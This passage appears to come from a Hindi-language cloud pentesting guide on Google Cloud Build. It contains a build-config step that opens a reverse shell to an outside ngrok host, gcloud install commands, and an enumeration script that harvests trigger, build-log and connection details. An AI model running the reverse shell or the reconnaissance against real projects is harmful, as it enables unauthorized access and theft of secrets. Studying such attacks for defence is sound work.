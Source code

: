 ### शेल प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
gcloud को क्लाउड बिल्ड के अंदर इंस्टॉल करें:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeration

आप **बिल्ड कॉन्फ़िग्स और लॉग्स में संवेदनशील जानकारी** पा सकते हैं।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार वृद्धि
